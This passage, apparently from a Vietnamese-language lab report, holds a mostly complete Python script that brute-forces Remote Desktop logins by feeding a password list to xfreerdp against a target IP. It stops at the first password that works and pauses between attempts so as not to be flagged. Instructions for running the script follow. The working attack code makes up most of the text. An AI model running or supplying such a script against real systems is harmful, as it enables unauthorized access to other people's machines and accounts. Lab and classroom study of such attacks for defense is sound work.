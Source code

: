 ```python
    passwords = [line.strip() for line in f if line.strip()]

print(f"[+] Bắt đầu brute force {username}@{target_ip} với {len(passwords)} mật khẩu...\n")

# Thử từng mật khẩu
for idx, password in enumerate(passwords, 1):
    print(f"[{idx}/{len(passwords)}] Thử mật khẩu: {password}")

    # Ghép lệnh xfreerdp
    cmd = xfreerdp_base_cmd + [f"/v:{target_ip}", f"/u:{username}", f"/p:{password}"]

    # Thực thi và lấy mã thoát
    result = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    return_code = result.returncode

    if return_code == 0:
        print(f"\nThành công! Mật khẩu đúng: {password}")
        break
    else:
        print("Sai mật khẩu\n")
        time.sleep(1)  # nghỉ 1 giây giữa các lần thử tránh để bị đánh dấu spam

else:
    print("\nKhông tìm được mật khẩu đúng trong danh sách.")

```
###
Sau đó thực hiện change directory tới thư mục chứa script python dùng `python3 brute_rdp.py` để thực hiện chạy script.

![text](./Imagers/3.5.2.png)
<p style="text-align:center;"><i>Hình 3.5.2: Run Script để Brute-force </i></p>
